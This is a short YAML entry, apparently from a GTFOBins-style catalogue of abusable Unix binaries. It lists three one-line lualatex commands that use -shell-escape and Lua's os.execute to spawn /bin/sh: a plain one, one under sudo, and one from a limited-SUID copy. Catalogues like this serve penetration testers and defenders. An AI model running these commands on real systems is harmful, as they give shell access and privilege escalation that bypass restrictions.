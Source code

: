 ```yaml
---
description: This allows to execute [`lua`](/ptbins/lua/) code.
functions:
  shell:
    - code: lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  sudo:
    - code: sudo lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  limited-suid:
    - code: ./lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
---
```

